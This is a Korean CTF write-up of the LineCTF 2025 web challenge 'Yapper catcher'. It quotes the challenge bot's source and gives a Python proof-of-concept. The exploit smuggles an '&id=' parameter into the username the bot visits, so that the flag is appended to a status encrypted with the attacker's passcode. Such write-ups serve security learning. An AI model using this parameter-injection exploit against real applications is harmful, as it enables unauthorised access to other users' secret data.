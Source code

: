 ```yaml
---
title: LineCTF 2025 Write-up
date: 2025-10-20
author: glasses96
categories: [CTF]
tags: [Line CTF, WEB]
pin: true
math: false
mermaid: true
---
```


> **Line CTF 2025 - Yapper catcher 문제 풀이 입니다.**   
{: .prompt-info }

## Result
`FermionAlp`팀으로 참여해서 6th를 했습니다.  
![6th](/assets/post/77/1.png)

저는 `Yapper catcher` 문제를 하나 풀었네요. 열심히 해서 다음엔 팀에 더 기여할 수 있도록....

## FLAG
`/bot/quotes.js` 를 보면 봇이 남기는 문구에 FLAG가 삽입되어 응답합니다.

```js
const superDuperInspirationalQuotes = [
  "Sometimes, the journey to <flag> is not about reaching the destination, but about discovering who you become along the way.",
  "The <flag> you seek is already within you, waiting to unfold in its perfect timing.",
  "Embrace the mess of <flag>, for within it lies the beauty of your growth.",
  "To find peace in <flag>, you must first find peace within yourself.",
  "The path to <flag> might seem long, but each step brings you closer to a version of yourself you never imagined.",
  "No matter the storm, <flag> will always find a way to shine through.",
  "Every setback in your <flag> journey is simply the universe redirecting you to something greater.",
  "True growth in <flag> comes not from doing, but from being.",
  "Let your <flag> be guided by your heart, and your path will always lead you home.",
  "In the broken pieces of <flag>, you will find the strength to rebuild what is better.",
]
var rr = 0;

const getQuote = () => {
  let quote = superDuperInspirationalQuotes[rr];
  quote = quote.replace('<flag>', process.env.FLAG);
  rr = (rr + 1) % superDuperInspirationalQuotes.length;

  return quote;
}

module.exports = getQuote;
```

봇이 `visit()` 동작 하는 코드를 보면 `page/?user={username}`에 `username`, `quote` 를 입력하여 post-status 버튼을 클릭합니다.  

```js
const visit = async (username) => {
  try {
    console.log("Spreading quote...")
    const browser = await puppeteer.launch({
      headless: "true",
      executablePath: `/usr/bin/google-chrome`,
      args: [
        "--disable-gpu",
        "--disable-dev-shm-usage",
        "--disable-setuid-sandbox",
        "--no-sandbox",
        '--ignore-certificate-errors'
      ],
      product: "chrome"
    });

    let page = (await browser.pages())[0];
    const quote = getQuote();

    await page.goto(process.env.SERVER_URL + '/?user=' + username)
    await page.type('input#username', username);
    await page.type('textarea#quote', quote);
    await page.click('button#post-status');
    await page.waitForNavigation();

    console.log(`Quote is at ${page.url()}`)

    await browser.close();

    console.log(`Closed browser`)
  } catch (e) {
    console.error(e);
    try {
      await browser.close();
      console.log(`Closed browser`)
    } catch (e) { }
  }
}
```

## Write-up
봇을 이용해 내가 작성한 패스코드로 암호화된 글에 `FLAG` 가 포함되게 만든 뒤 해당 글을 복호화 하면 됩니다. 


- 방문 URL이 SERVER_URL + '/?user=' + username 이고, 폼 제출로 상태가 생성/갱신
- 신규 생성 시 passcode 미존재 일 경우 서버가 랜덤 패스워드를 생성하지만 갱신하는 형태일 경우 기존 패스코드로 암호화되어 누적 저장됩니다.

아래 사진 처럼 `id` 변수에 status 값이 들어가면 해당 status가 작성한 글 들을 볼 수 있습니다.  
해당 status가 포함된 상태로 글을 작성하게 하면 passcode는 내가 처음에 작성한 passcode로 글이 추가 됩니다.  

![status](/assets/post/77/2.png)

### PoC
- 실제 문제에서는 `reCapcha`가 있으나, 도커에서는 reCapcha 지우고 함
- `/bot/index.js` 에 recaptcha 주석 처리함

```js
app.post('/bot/quote', async (req, res) => {
  const { username } = req.body;
  // if (!await verify(req.body)) {
  //   return res.send(`Bot-powered yapper bot? Not on my watch`);
  // }
  visit(username);
  return res.send(`Bot is yapping as ${username}`);
})
```


- 글을 하나 작성하여 `passcode` 설정 및 `status` 값을 가져옴
- bot(yapper)에게 username 변수 뒤에 `&id={statusID}`를 추가하여 이미 작성된 status에 추가로 작성하도록 요청
- 봇이 동작할 때 까지 기다린 후 status 목록을 보면 새로운 글이 작성된 것을 확인할 수 있고, 처음에 만든 passcode 입력 시 FLAG를 획득할 수 있음

```py
import requests
from bs4 import BeautifulSoup
import time

INFO = lambda x: print(f"[+] {x}")
URL = "http://127.0.0.1:9001"


def get_status_id():
    data= {
        "user":"glasses96",
        "quote":"test",
        "passcode":"glasses96"}
    res = requests.post(f"{URL}",data=data,allow_redirects=False)

    statusID = res.headers['Location'].split("/")[1]
    INFO(f"Status ID: {statusID}")
    return statusID

def bot_quote(statusID):

    PATH = "/bot/quote"

    data = {
        "username":f"glasses96&id={statusID}"
    }

    res = requests.post(f"{URL}{PATH}",data=data,proxies={"http":"127.0.0.1:8174"})
    INFO(f"Response: {res.text}")
    return res.text

def get_encrypted_values(statusID):
    res = requests.get(f"{URL}/{statusID}")
    soup = BeautifulSoup(res.text, 'html.parser')

    encrypted_user = soup.find('input', {'id': 'encrypted-user-1'})['value']
    INFO(f"Encrypted User: {encrypted_user}")

    encrypted_quote = soup.find('input', {'id': 'encrypted-quote-1'})['value']
    INFO(f"Encrypted Quote: {encrypted_quote}")
    return encrypted_user, encrypted_quote

def decrypt_flag(encrypted_user, encrypted_quote):

    data = {
        "user":encrypted_user,
        "quote":encrypted_quote,
        "passcode":"glasses96"
    }

    res = requests.post(f"{URL}/decrypt",data=data,allow_redirects=False)
    return res.text
        

if __name__ == "__main__":
    statusID = get_status_id()
    bs4_data = bot_quote(statusID)
    
    time.sleep(60)
    while True:
        res = requests.get(f"{URL}/{statusID}")
        if "encrypted-user-1" in res.text:
            INFO("Find encrypted-1 values!")
            break
        
    get_encrypted_values(statusID)
    encrypted_user, encrypted_quote = get_encrypted_values(statusID)
    flag = decrypt_flag(encrypted_user, encrypted_quote)
    INFO(f"Flag: {flag}")
```

```sh
[+] Flag: {"success":true,"data":{"user":"glasses96&id=96b6cc94864699c66b1cd1c3a7220944","quote":"Sometimes, the journey to LINECTF{test} is not about reaching the destination, but about discovering who you become along the way."}}
```